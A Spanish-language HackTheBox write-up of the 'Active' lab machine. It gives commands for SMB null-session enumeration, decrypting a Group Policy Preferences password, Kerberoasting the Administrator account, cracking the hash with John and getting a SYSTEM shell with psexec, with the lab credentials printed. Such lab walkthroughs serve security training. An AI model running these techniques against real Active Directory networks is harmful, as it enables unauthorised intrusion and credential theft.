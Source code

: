```yaml
---
layout: ../layouts/SavinoteLayout.astro
title: "HTB_Active"
date: 2023-07-10
slug: htb_active
heroImage: /assets/machines.jpg
---
```


# Active {-}

## Introduccion {-}

La maquina del dia se llama Active.

El replay del live se puede ver aqui

[![S4vitaar Sauna maquina](https://img.youtube.com/vi/kTyYkrK970w/0.jpg)](https://www.youtube.com/watch?v=kTyYkrK970w)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.100
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.100
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.100 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p53,88,135,139,289,445,464,593,636,3269,5985,9389,49667,49673,49674,49677,49689,49698 10.10.10.100 -oN targeted
```


| Puerto | Servicio   | Que se nos occure?                       | Que falta?                |
| ------ | ---------- | ---------------------------------------- | ------------------------- |
| 53     | domain     | Domain controller rpcclient null session |                           |
| 88     | Kerberos   | asproasting attack                       | lista de usuarios validos |
| 135    | msrpc      |                                          |                           |
| 139    | netbios    |                                          |                           |
| 389    | LDAP       | Bloodhound                               | credenciales              |
| 445    | smb        | Null session                             |                           |
| 464    | kpasswd5?  |                                          |                           |
| 593    | ncacn_http |                                          |                           |
| 636    | tcpwrapped |                                          |                           |
| 3268   | ldap       |                                          |                           |
| 3269   | tcpwrapped |                                          |                           |
| 5722   | WinRM      | evil-winrm                               | credenciales              |
| 9389   | mc-nmf     | Puertos por defecto de windows           |                           |
| 47001  | msrpc      | Puertos por defecto de windows           |                           |
| 49152  | msrpc      | Puertos por defecto de windows           |                           |
| 49153  | msrpc      | Puertos por defecto de windows           |                           |
| 49154  | msrpc      | Puertos por defecto de windows           |                           |
| 49155  | ncacn_http | Puertos por defecto de windows           |                           |
| 49157  | msrpc      | Puertos por defecto de windows           |                           |
| 49158  | msrpc      | Puertos por defecto de windows           |                           |
| 49169  | msrpc      | Puertos por defecto de windows           |                           |
| 49171  | msrpc      | Puertos por defecto de windows           |                           |
| 49182  | msrpc      | Puertos por defecto de windows           |                           |


### Analyzando el SMB {-}

```bash
crackmapexec smb 10.10.10.100
smbclient -L 10.10.10.100 -N
smbmap -H 10.10.10.100 -u 'null'
```

Vemos que estamos frente de una maquina Windows 6.1 x64 que se llama **DC** en el dominio **active.htb** con un certificado firmado.
Añadimos el dominio al `/etc/hosts`.
Tambien vemos que podemos ver los recursos compartidos a nivel de red con un null session y que el recurso **Replication** esta en **READ ONLY**.
Listamos el directorio con **smbmap**

```bash
smbmap -H 10.10.10.100 -r Replication
smbmap -H 10.10.10.100 -r Replication/active.htb
```

Aqui vemos

- DfsrPrivate
- Policies
- scripts

Esto nos hace pensar a una replica de **SYSVOL**. Aqui buscamos si esta el `groups.xml`

```bash
smbmap -H 10.10.10.100 -r Replication/active.htb/Policies
smbmap -H 10.10.10.100 -r Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}
smbmap -H 10.10.10.100 -r Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}/MACHINE
smbmap -H 10.10.10.100 -r Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}/MACHINE/Preferences
smbmap -H 10.10.10.100 -r Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}/MACHINE/Preferences/Groups/*
```

## Vulnerability Assessment {-}

### Groups.xml {-}

Hemos encontrado el fichero `groups.xml`, lo descargamos

```bash
smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}/MACHINE/Preferences/Groups/Groups.xml

mv Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}/MACHINE/Preferences/Groups/Groups.xml Groups.xml
cat Groups.xml
```

Aqui vemos el usuario y la contraseña encryptada.

```bash
gpp-decrypt "edBSHOwhZLTjt/Q59FeIcJ83mjWA98gw9gukOhjOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

Ya tenemos la contraseña. Verificamos si las credenciales son validas.

```bash
crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```

Es valida pero no tenemos el Pwn3d. Miramos si este usuario tiene acceso a mas registros compartidos a nivel de red.

```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```

Hay unos cuantos mas. Miramos lo que hay en el registro Users

```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Users
```

Como solo vemos nuestro usuario y el administrator, y quel puerto 88 esta abierto, intentamos un Kerberoasting attack.

### Kerberoasting attack {-}

```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18
```

Aqui podemos ver que el usuario Administrator es kerberoasteable.

```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```

Copiamos el hash y intentamos romperlo con John

### Crack hash with John {-}

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Ya tenemos la contraseña del usuario Administrator. Lo verificamos con crackmapexec

```bash
crackmapexec smb 10.10.10.100 -u 'Administrator' -p 'Ticketmaster1968'
```

Ademas de ser valido, vemos el famoso **(Pwn3d!)**
## Vuln exploit & Gaining Access {-}

### Conexion con psexec {-}


```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd.exe
whoami
#Output
nt authority\system
```

Aqui podemos leer las 2 flags.
